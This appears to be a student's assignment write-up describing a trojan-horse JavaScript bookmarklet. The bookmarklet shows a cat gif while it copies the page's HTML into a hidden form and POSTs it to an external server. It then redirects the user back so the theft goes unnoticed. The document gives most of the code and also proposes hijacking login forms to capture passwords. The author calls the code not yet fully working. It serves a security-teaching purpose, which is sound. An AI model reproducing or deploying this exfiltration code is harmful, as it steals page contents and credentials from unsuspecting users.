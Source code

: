 # Assignment 2: Bookmarklet
Make a bookmarklet that works against the user.

I wanted to try creating a proof of concept for a malicious bookmarklet, that gathers up the data on the page and sends is to an external server.  I'll package it up with a cute distraction, to make it a very simple variation on the classic Trojan Horse (inspired by [Bonzi Buddy](http://malware.wikia.com/wiki/BonziBUDDY)) 

So our bookmarklet can start out by adding a cute cat gif to the page, "improving" the browsing experience.

The simplest way to do this would be

    $.post(externalUrl, $('body').html,
	     function(data){
		     alert("im in ur webnets, stealin ur data");
     });
But we'll quickly run into complications related to CORS which we can't easily solve.

Instead, I tried using a more traditional HTML form that POSTS to an external URL.

    $('body').append("<form id='evil' action='"+url+"' method='post'>
    <input name='bodyHtml' type='hidden' value='"+bodyHtml+"'>
    <input name='redirectUrl' type='hidden' value='testurl'>
    <input type='submit'>
    </form>");
The submit button is not really necessary but is useful for debugging.

This creates an HTML form with the current page's contents as a hidden input field. It also puts the current URL as one of the fields, so our malicious server knows where to send the user back to after ingesting the stolen data, so that the user may not even notice that they've left their intended page, visited a malicious server, and gone back to where they started. Because we're using a traditional HTML form, we will need to actually leave the current page when we POST the data. But we can cover that up easy enough by immediately redirecting the user back to the original page they were on.

After a delay, we can then submit the form

    $('#evil').submit();

 
This is not entirely functional yet, I think I am running into trouble with escaping quote characters when setting the form input to the bodyHtml. Need to play around with some regex to do this better.

       function injectJquery(callback) {
      if (window.jQuery) {
        return callback(window.jQuery);
      }
      let script = document.createElement('script');
      script.setAttribute(
        'src',
        '//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js'
      );
      script.onload = () => callback(window.jQuery);
      script.onerror = e => alert('The script failed to load: ' + e);
      document.head.appendChild(script);
    }
    
    var catGifs = ['http://www.catgifpage.com/gifs/325.gif','https://media.tenor.com/images/47b81948be5023555549c01d88ae3289/tenor.gif','https://memesbams.com/wp-content/uploads/2017/11/Hilarious-Cat-Gifs.gif']
    
    injectJquery(function($) {
      var catGif = catGifs[Math.floor(Math.random()*catGifs.length)];
      $('body').prepend("<img src='"+catGif+"'>");
      
      var url = "http://calebcalebcaleb.com/playback.php";
      // A good old fashioned Trojan Horse
      //Activating this bookmarklet will add a cute cat gif to the page. 
      //It will also exfiltrate the contents of the current page and send it to an external server.
      var bodyHtml = encodeURIComponent($('body').html());
      
      $('body').append("<form id='evil' action='"+url+"' method='POST'><input name='bodyHtml' type='hidden' value='"+bodyHtml+"'><input name='redirectUrl' type='hidden' value='"+url+"'><input type='submit'></form>");
      
    
      
      
    });


  
An alternative solution, similarly malicious but perhaps more elegant, would be to search for existing forms on the page (like a login form) and change its destination URL to a server I control. This would be less obtrusive/detectable for the user, and possibly be more efficient at swiping useful data (like passwords).

But I don't want to get too into making malicious software... the world doesn't need any more of that!
